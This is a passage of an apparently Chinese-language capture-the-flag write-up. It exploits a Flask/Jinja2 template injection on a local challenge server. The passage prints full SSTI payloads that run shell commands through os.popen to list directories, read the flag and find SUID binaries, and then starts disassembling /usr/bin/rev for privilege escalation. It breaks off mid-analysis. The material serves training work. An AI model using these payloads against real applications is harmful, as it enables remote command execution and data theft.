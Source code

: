 ```
http://127.0.0.1:50094/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/dir.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('dir ../').read() ) }}&password=1

http://127.0.0.1:50094/static/dir.txt
```

```
app  boot  entrypoint.sh  flag	lib    media  opt   root  sbin	sys  usr
bin  dev   etc		  home	lib64  mnt    proc  run   srv	tmp  var
```

```
http://127.0.0.1:50094/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/flag.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('cat ../flag').read() ) }}&password=1

http://127.0.0.1:50094/static/flag.txt
```

发现了`flag`无法读取，必须想办法绕过权限问题。试试`SUID`。

```
http://127.0.0.1:51925/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/suid.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('find / -perm -4000 -type f 2>/dev/null').read() ) }}&password=1

http://127.0.0.1:51925/static/suid.txt
/usr/bin/rev
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
```

逆向检查一下`/rev`。

```
http://127.0.0.1:51925/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/main_disassembly.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('objdump -d /usr/bin/rev | grep -A 30 main').read() ) }}&password=1

http://127.0.0.1:51925/static/main_disassembly.txt
```

```assembly
1175: 	48 8b 00             	mov    (%rax),%rax
1178: 	48 89 c6             	mov    %rax,%rsi
```
这里，程序把输入的第一个参数（比如 `ssdDH--`）放到了 `%rsi` 寄存器里，准备进行比较。

